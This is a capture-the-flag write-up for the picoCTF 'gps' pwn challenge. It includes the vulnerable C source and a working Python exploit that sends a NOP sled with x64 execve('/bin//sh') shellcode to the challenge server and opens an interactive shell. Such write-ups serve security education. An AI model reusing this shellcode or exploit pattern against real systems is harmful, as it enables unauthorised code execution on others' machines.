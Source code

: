 gps - Points: 550
===========

## Description

>You got really lost in the wilderness, with nothing but your trusty gps. Can you find your way back to a shell and get the flag? Connect with nc 2018shell1.picoctf.com 29035

## Hint:

> * Can you make your shellcode randomization-resistant?

## Vulnerable Code:

```c
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define GPS_ACCURACY 1337

typedef void (fn_t)(void);

void initialize() {
    printf("GPS Initializing");
    for (int i = 0; i < 10; ++i) {
        usleep(300000);
        printf(".");
    }
    printf("Done\n");
}

void acquire_satellites() {
    printf("Acquiring satellites.");
    for (int i = 0; i < 3; ++i) {
        printf("Satellite %d", i);
        for (int j = 0; j < rand() % 10; ++j) {
            usleep(133700);
            printf(".");
        }
        if (i != 3) {
            printf("Done\n");
        } else {
            printf("Weak signal.\n");
        }
    }

    printf("\nGPS Initialized.\n");
    printf("Warning: Weak signal causing low measurement accuracy\n\n");
}

void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}


int main() {
    setbuf(stdout, NULL);

    char buffer[0x1000];
    srand((unsigned) (uintptr_t) buffer);

    initialize();
    acquire_satellites();

    printf("We need to access flag.txt.\nCurrent position: %p\n", query_position());

    printf("What's your plan?\n> ");
    fgets(buffer, sizeof(buffer), stdin);

    fn_t *location;

    printf("Where do we start?\n> ");
    scanf("%p", (void**) &location);

    location();
    return 0;
}

```

## Useful Information

> location = address string

```
checksec gps
   
   Arch:     amd64-64-little
   
   RELRO:    Partial RELRO
   
   Stack:    Canary found
   
   NX:       NX disabled
   
   PIE:      No PIE (0x400000)
   
   RWX:      Has RWX segments
```

## Exploit


**Send a X64 Shellcode with a big Nopsled and give the location adress as second user input:**

```python
#!/usr/bin/python2.7
from pwn import *
import time,sys

rem = remote("2018shell1.picoctf.com",29035)
adr_shellcode=rem.recvuntil("What's your plan?").split("Current position: ")[1][2:14]
print("adr_shellcode='"+adr_shellcode+"'")

payload="\x90"*0x800+"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
rem.sendline(payload)
print(rem.recv())
rem.sendline(adr_shellcode)
rem.interactive()
rem.close()

```
